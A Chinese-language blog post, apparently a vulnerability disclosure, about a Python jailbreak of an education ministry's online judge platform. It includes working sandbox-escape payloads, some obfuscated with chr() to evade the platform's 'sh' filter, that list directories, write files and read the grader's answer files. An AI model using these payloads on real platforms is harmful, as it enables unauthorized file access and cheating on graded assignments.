



:::note
成功拿到第一個 [Zeroday](https://zeroday.hitcon.org/vulnerability/ZD-2025-00696)！所以記錄一下~
:::

## 目標選擇

首先先來講一下為什麼會選擇這個目標。起初是因為在暑假期間第一次參加了教育部的攻擊手，基本上就是到處測試各個學校的網站有沒有漏洞，回報之後依照等級劃分可以拿到分數，最後看分數的加總排行前幾名可以拿到獎金。


因為我平常 CTF 主要還是以`Reverse`為主，所以這種打滲透也算是新手，好險當初有實驗室的學長(罐頭)也給我很多建議，最後也成功找到 2 個高衝擊性之漏洞。

那也因為這次的過程讓我覺得非常的有成就感，所以就想說也來看看周圍有沒有跟我教育部打的漏洞可能有關係(其中一個是 Online Judge)，這時候剛好我暑假也接了一個程式設計課程的助教，並且老師使用了一個教育部的程式練習平臺，然後這個平臺真的寫的有點x，所以就決定嘗試攻擊這個`Online Judge`了。

## 平臺介紹



先簡單介紹這個平臺，這是一個程式練習的平臺，可以給老師註冊然後從題庫裡面抓題目給自己的學生練習。


這邊順便介紹為啥這平臺讓我覺得很瞎的地方，我們課程教學是使用 python，那時候有個題目是算多個人成績的平均，並且有一堂課是英文，所以大家很理所當然的變數名稱會使用`english`對吧，結果一堆人報錯以上的錯誤。可以理解想要阻擋`sh`，但是這樣的 filter 也太誇張 點點點。

:::warning
他就是直接判斷整段程式裡面有沒有 "sh" 不管在程式的哪個地方。基於以上這樣很明顯他的防禦手段一定有問題。
:::

## 攻擊過程 :crossed_swords:

參考了以下 github 去構築 payload。

::github{repo="jailctf/pyjailbreaker"}

這邊開始做 python jailbreak，在突破的過程中有發現可以使用下列的方式去`import os`，可是卻沒有辦法使用 `os.system()` 去呼叫我想要任意執行的 linux 指令，但可以知道的是他有執行成功沒有被攔截，可是輸出框那邊並沒有東西回傳。

```python title="os.system() 嘗試"
list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_o = get_sys.modules['os']
print(get_o.system('ls'))
```

這部分後續就沒有再多做嘗試，因為不管輸入什麼指令他的輸出框那邊都是黑的，所以就沒有再多做其他指令嘗試。後續轉成去嘗試使用 os 的其他用法。

```python title="os.listdir() 嘗試"
list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_o = get_sys.modules['os']
print(get_o.listdir('/'))
```

:::note
這樣的使用就可以把根目錄底下的檔案印出來。但他也可以根據他的檔案內容知道這是一個 docker 的容器內，但我沒有做到 docker 的逃逸，變成頂多任意讀寫 docker 內的檔案。
:::

因為看起來 os 的其他用法是可以使用的，所以我從原本的任意指令執行的目標改成嘗試任意讀寫。

### 寫檔

```python title="Write file"
[
    cls for cls in object.__subclasses__() 
    if chr(111)+chr(115)+chr(46)+chr(95)+chr(119)+chr(114)+chr(97)+chr(112)+chr(95)+chr(99)+chr(108)+chr(111)+chr(115)+chr(101) in str(cls)
][0].__init__.__globals__[
    chr(115)+chr(121)+chr(115)
].modules[
    chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)
].__dict__[
    chr(111)+chr(112)+chr(101)+chr(110)
](
    chr(47)+chr(98)+chr(111)+chr(120)+chr(47)+chr(116)+chr(101)+chr(115)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116),
    chr(119)
).close()

list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_o = get_sys.modules['os']
print(get_o.listdir('/box'))
```

上面的寫法等效於:

```python title="Write file"
open('/box/test.txt', 'w').close()
os.listdir('/box')
```



可以看到把`test.txt`寫進去根目錄了。

### 讀檔

也可以直接用讀檔的方式去把答案讀出來然後系統就會直接判定答案是對的。

```python title="Read file"
[
    cls for cls in object.__subclasses__() 
    if chr(111)+chr(115)+chr(46)+chr(95)+chr(119)+chr(114)+chr(97)+chr(112)+chr(95)+chr(99)+chr(108)+chr(111)+chr(115)+chr(101) in str(cls)
][0].__init__.__globals__[
    chr(115)+chr(121)+chr(115)
].modules[
    chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)
].__dict__[
    chr(112)+chr(114)+chr(105)+chr(110)+chr(116)
](
    [
        cls for cls in object.__subclasses__() 
        if chr(111)+chr(115)+chr(46)+chr(95)+chr(119)+chr(114)+chr(97)+chr(112)+chr(95)+chr(99)+chr(108)+chr(111)+chr(115)+chr(101) in str(cls)
    ][0].__init__.__globals__[
        chr(115)+chr(121)+chr(115)
    ].modules[
        chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)
    ].__dict__[
        chr(111)+chr(112)+chr(101)+chr(110)
    ](
        chr(111)+chr(117)+chr(116)+chr(112)+chr(117)+chr(116)+chr(49)+chr(46)+chr(116)+chr(120)+chr(116),
        chr(114)
    ).read()
)
```

上面的寫法等效於:

```python title="Read file"
print(open("output1.txt").read())
```



可以看到把測資讀出來然後通過系統的檢查。